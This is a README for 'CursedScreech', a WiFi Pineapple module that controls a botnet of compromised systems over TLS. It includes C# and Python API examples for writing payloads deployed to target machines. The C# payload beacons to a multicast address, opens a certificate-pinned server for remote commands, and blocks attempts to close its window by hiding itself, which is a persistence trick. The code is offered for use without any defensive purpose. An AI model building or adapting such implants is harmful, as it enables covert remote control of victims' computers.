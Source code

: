 # CursedScreech

A mass communicator module for the WiFi Pineapple that utilizes TLS to control a botnet of compromised systems.  Included is a C# API and Python API (with documentation) to write payloads that can communicate with CursedScreech.  This module is still in development but will hopefully be ready for it's first full release within the next couple of weeks.

Order of work left on this module:

1. ~~Finish C# API~~
2. ~~Write equivalent Python library~~
3. Put finishing touches on web interface
4. Test, Test, Test
5. Finish documentation and video guide
7. Release on Module Manager


# APIs
I recommend using C# over Python to build your payload.  Both APIs are really simple to use but using C# will allow you to create a self-contained executable along with required keys/certificates.  Writing your payload in Python will require you to freeze your code and it can be difficult, if not impossible, to include all required files in a single executable.  If you can't make a single executable you will have to find a way to move the whole dist directory to the target machine.

### C# API Example
```
using System;
using System.Drawing;
using System.Windows.Forms;
using CursedScreech;

namespace Payload
{
    public partial class Form1 : Form {

        public Form1() {
            InitializeComponent();

            CursedScreech.CursedScreech cs = new CursedScreech.CursedScreech();
            cs.startMulticaster("231.253.78.29", 19578);
            cs.setRemoteCertificateSerial("EF-BE-AD-DE");
            cs.setRemoteCertificateHash("1234567890ABCDEF");
            cs.startSecureServerThread("Payload.Payload.pfx", "#$My$ecuR3P4ssw*rd&");

        }
        private void Form1_FormClosing(object sender, FormClosingEventArgs e) {
            e.Cancel = true;
            this.Hide();
        }
    }
}

```


### Python API Example
```
from CursedScreech import CursedScreech

cs = CursedScreech("Network Client")
cs.startMulticaster("231.253.78.29", 19578)
cs.setRemoteCertificateSerial("ABCDEF1234567890")
cs.startSecureServerThread("payload.pem", "payload.cer", "cursedscreech.cer")
```
